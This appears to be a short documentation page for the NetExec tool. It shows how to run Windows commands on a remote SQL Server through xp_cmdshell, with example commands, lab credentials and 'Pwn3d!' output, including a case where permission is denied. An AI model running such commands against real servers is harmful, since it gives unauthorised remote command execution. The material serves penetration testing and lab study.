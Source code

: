 # Execute commands via xp_cmdshell

## Execute Windows Command

### This option use xp_cmdshell to exec command on the remote host.

    #~ nxc mssql 10.10.10.59 -u sa -p 'GWE3V65#6KFH93@4GWTG2G' --local-auth -x whoami

    MSSQL       10.10.10.59     1433   None             [+] sa:GWE3V65#6KFH93@4GWTG2G (Pwn3d!)

    MSSQL       10.10.10.59     1433   None             [+] Executed command via mssqlexec

    MSSQL       10.10.10.59     1433   None             --------------------------------------------------------------------------------

    MSSQL       10.10.10.59     1433   None             tally\sarah

### If permission is DENIED:


    MSSQL       10.10.10.52     1433   None             [+] admin:m$$ql_S@_P@ssW0rd! (Pwn3d!)

    MSSQL       10.10.10.52     1433   None             [-] ERROR(MANTIS\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.

    MSSQL       10.10.10.52     1433   None             [+] Executed command via mssqlexec

    MSSQL       10.10.10.52     1433   None             None

